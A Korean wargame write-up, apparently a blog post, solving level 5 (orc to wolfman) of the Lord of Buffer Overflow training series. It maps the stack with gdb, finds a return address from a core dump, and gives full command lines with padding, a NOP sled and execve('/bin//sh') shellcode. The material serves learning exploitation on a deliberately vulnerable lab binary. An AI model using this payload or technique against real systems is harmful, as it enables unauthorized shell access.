 ```yaml
---
title:  "[LOB] level 5: orc >> wolfman "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-22 08:46:36

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 5

**orc / cantata**

wolfman.c 코드 읽기  

![image](https://user-images.githubusercontent.com/69203345/147016263-c0deb5b7-aa7e-4e4b-96da-7b86f2f4abec.png)

하면할수록 조건이 추가되는데 소름이 돋을 지경이다

buffer를 memset으로 초기화도 시킨다  
나머지 조건은 그대로

스택의 구조를 보면

낮은주소

i[4]  
buffer[40] [ebp-40]  
sfp[4]  
ret[4]  
...  
argc  
argv[1]

높은주소

일듯하다

그래도 gdb는 빠질수 없지  
![image](https://user-images.githubusercontent.com/69203345/147054712-6529e861-c065-4e0f-b6f0-c44ffb48bce5.png)  
밑에 더있는데 다 nop이니까 안올림

0x8048503 <main+3>: sub %esp, 44  
스택의 크기는 44바이트

0x80485b9 <main+185>: lea  %eax,[%ebp-40]  buffer의 위치

0x8048506 <main+6>: cmp DWORD PTR [%ebp+8],1  
이부분이 argc의 비교문 일것이다 따라서 argc의 위치는 [ebp+8]일것

0x80485ce <main+189>: call 0x8048440  <strcpy>  위에 strcpy의 인자로 push되는 인자들을 보면 <main+176>에 [%ebp+12]의 위치에 있는 인자가 push되는데  argv[1]이라고 생각이 든다

스택을 좀더 정확히 해보자면

낮은주소

i[4]  
buffer[40] [ebp-40]  
sfp[4]  
ret[4]  
...  
argc    [ebp+8]     #값은 1  
argv[] [ebp+12]

높은주소

작성할 페이로드 A*44 +ret[4] + 쉘코드

>./wolfman \`python -c 'print "A"\*44+"\xff\xff\xff\xbf"+"\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

![image](https://user-images.githubusercontent.com/69203345/147061721-1db78919-49a2-47ac-8e6d-f8937187e50d.png)

gdb로 core확인

![image](https://user-images.githubusercontent.com/69203345/147061973-639702c5-4b5d-4163-8238-491b3697a437.png)

0xbffffc50으로 리턴주소를 사용하겠다

>./wolfman \`python -c 'print "A"*44+"\x50\xfc\xff\xbf"+"\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

Illegal instruction이 뜬다면 \x90의 갯수를 바꿔보자

![image](https://user-images.githubusercontent.com/69203345/147063440-f6cb7f43-5544-416e-9282-30037332c3c2.png)